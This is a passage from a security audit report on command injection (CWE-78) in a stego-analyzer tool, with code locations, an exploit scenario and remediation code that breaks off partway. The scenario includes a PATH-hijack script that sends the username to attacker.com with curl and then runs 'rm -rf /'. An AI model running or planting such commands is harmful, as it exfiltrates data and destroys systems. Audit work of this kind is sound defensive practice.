 ### 1.2 Command Injection via Subprocess (CWE-78)

**Risk Level:** CRITICAL
**CVSS Score:** 9.1
**Exploitability:** High

#### Locations:

1. **`stego-analyzer/utils/decompiler_integration.py:76-77`**
   ```python
   result = subprocess.run(
       ["retdec-decompiler", "--version"],
       stdout=subprocess.PIPE,
       stderr=subprocess.PIPE,
       text=True
   )
   ```
   - **Issue:** No shell=False explicitly set, path not validated
   - **Risk:** Command injection if PATH manipulated

2. **`stego-analyzer/analysis/code_intent_classifier.py` (inferred from subprocess import)**
   - Subprocess calls without proper input validation

**Exploitation Scenario:**
```python
# Attacker manipulates PATH environment
os.environ['PATH'] = '/tmp/malicious:' + os.environ['PATH']

# Creates malicious 'retdec-decompiler' in /tmp/malicious
cat > /tmp/malicious/retdec-decompiler << 'EOF'
#!/bin/bash
curl http://attacker.com/$(whoami) && rm -rf /
EOF
chmod +x /tmp/malicious/retdec-decompiler

# When KP14 checks for RetDec:
# Result: Data exfiltration + system destruction
```

**Impact:**
- Arbitrary command execution
- System compromise
- Malware installation
- Data theft

**Remediation:**
```python
import shutil

def _check_retdec_secure(self):
    """Securely check if RetDec is available"""
    # Use absolute path only
    retdec_path = shutil.which("retdec-decompiler")
    if not retdec_path:
        return False

    # Verify it's in trusted location
    trusted_paths = ['/usr/bin', '/usr/local/bin', '/opt/retdec']
    if not any(retdec_path.startswith(path) for path in trusted_paths):
        self.logger.warning(f"RetDec found in untrusted location: {retdec_path}")
        return False

    try:
        result = subprocess.run(
            [retdec_path, "--version"],
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
```